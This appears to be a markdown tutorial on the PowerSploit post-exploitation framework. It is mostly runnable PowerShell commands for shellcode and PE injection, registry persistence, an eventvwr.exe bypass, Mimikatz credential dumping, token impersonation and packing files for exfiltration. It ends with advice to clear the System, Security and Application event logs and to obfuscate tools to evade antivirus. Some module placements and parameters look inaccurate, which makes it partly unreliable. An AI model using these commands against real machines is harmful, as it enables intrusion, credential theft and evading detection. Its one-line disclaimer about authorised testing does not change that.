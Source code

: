 # Powersploit

### Prerequisites
1. **Windows Environment:** PowerSploit requires a Windows machine with PowerShell installed.
2. **Administrative Privileges:** Many of the scripts require administrative privileges to execute effectively.
3. **Execution Policy:** Ensure that the PowerShell execution policy allows script execution. Use the following command to bypass the execution policy:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force
   ```
4. **PowerSploit Repository:** Clone or download the PowerSploit repository from [GitHub](https://github.com/PowerShellMafia/PowerSploit).

### Step 1: Setting Up PowerSploit

1. **Download and Extract:**
   Download the PowerSploit repository:
   ```bash
   git clone https://github.com/PowerShellMafia/PowerSploit.git
   ```
   If Git is not available, download the ZIP file directly from GitHub and extract it.

2. **Load the Modules:**
   Navigate to the directory where PowerSploit was downloaded and import the modules you need. For example:
   ```powershell
   Import-Module ./PowerSploit/CodeExecution/Invoke-Shellcode.ps1
   ```

### Step 2: Using PowerSploit for Common Tasks

#### 1. **Code Execution:**
   PowerSploit offers several methods to execute arbitrary code on a target machine.

   - **Invoke-Shellcode:**
     This script injects shellcode directly into the memory of the current process or a remote process.
     ```powershell
     Import-Module ./PowerSploit/CodeExecution/Invoke-Shellcode.ps1
     Invoke-Shellcode -Shellcode (New-Object byte[] 300) -Force
     ```
     Replace `(New-Object byte[] 300)` with your own shellcode.

   - **Invoke-ReflectivePEInjection:**
     This script injects a PE file (like an EXE or DLL) into the memory of a process without writing it to disk.
     ```powershell
     Import-Module ./PowerSploit/CodeExecution/Invoke-ReflectivePEInjection.ps1
     Invoke-ReflectivePEInjection -PEPath "C:\path\to\your\file.exe" -ProcId 1234
     ```

#### 2. **Persistence:**
   PowerSploit includes several scripts to establish persistence on a compromised system.

   - **New-UserPersistenceOption:**
     This script creates various persistence options, such as adding registry keys, modifying startup scripts, or creating scheduled tasks.
     ```powershell
     Import-Module ./PowerSploit/Persistence/New-UserPersistenceOption.ps1
     New-UserPersistenceOption -Option "Registry" -UserName "targetuser"
     ```

   - **Invoke-EventVwrBypass:**
     This technique exploits the eventvwr.exe binary to gain persistence by setting the registry key to launch a custom executable.
     ```powershell
     Import-Module ./PowerSploit/Persistence/Invoke-EventVwrBypass.ps1
     Invoke-EventVwrBypass -Command "C:\path\to\your\payload.exe"
     ```

#### 3. **Reconnaissance:**
   Information gathering is critical during the post-exploitation phase.

   - **Invoke-HostRecon:**
     This script gathers extensive information about the host, including user accounts, network interfaces, and running processes.
     ```powershell
     Import-Module ./PowerSploit/Recon/Invoke-HostRecon.ps1
     Invoke-HostRecon
     ```

   - **Get-NetLocalGroup:**
     This script enumerates local groups on the target machine and their members.
     ```powershell
     Import-Module ./PowerSploit/Recon/PowerView.ps1
     Get-NetLocalGroup
     ```

#### 4. **Credential Dumping:**
   Extracting credentials is often a key objective in post-exploitation.

   - **Invoke-Mimikatz:**
     PowerSploit can integrate with Mimikatz to extract credentials from memory.
     ```powershell
     Import-Module ./PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
     Invoke-Mimikatz -DumpCreds
     ```

   - **Invoke-CredentialInjection:**
     Inject harvested credentials into the current session to impersonate another user.
     ```powershell
     Import-Module ./PowerSploit/Exfiltration/Invoke-CredentialInjection.ps1
     Invoke-CredentialInjection -Username "targetuser" -Password "password"
     ```

#### 5. **Exfiltration:**
   Exfiltrating data from a compromised system is often the final step in an attack.

   - **Invoke-TokenManipulation:**
     This script manipulates Windows tokens to steal or impersonate another user’s security context.
     ```powershell
     Import-Module ./PowerSploit/Exfiltration/Invoke-TokenManipulation.ps1
     Invoke-TokenManipulation -ImpersonateUser -Username "Administrator"
     ```

   - **Out-EncryptedZip:**
     Compress and encrypt files for exfiltration.
     ```powershell
     Import-Module ./PowerSploit/Exfiltration/Out-EncryptedZip.ps1
     Out-EncryptedZip -FilePath "C:\path\to\exfiltrate" -Password "SuperSecretPassword" -OutPath "C:\output.zip"
     ```

### Step 3: Cleaning Up

After using PowerSploit, it's essential to clean up any traces left on the system to avoid detection.

1. **Remove Modules:**
   Unload any PowerSploit modules that were imported:
   ```powershell
   Remove-Module PowerSploit
   ```
2. **Delete Logs:**
   Clear event logs or other artifacts that may reveal your activities.

   - Clear logs:
     ```powershell
     wevtutil cl System
     wevtutil cl Security
     wevtutil cl Application
     ```

### Final Notes

- **Avoid Overuse:** Some PowerSploit modules, like `Invoke-Mimikatz`, are well-known and can be detected by modern antivirus and endpoint detection tools. Use obfuscation techniques to evade detection.
- **Update Regularly:** PowerSploit is a community-driven project. Ensure you are using the latest version to benefit from any improvements or new features.

PowerSploit is a powerful framework, but it should be used responsibly and ethically, only on systems where you have explicit permission to perform security testing.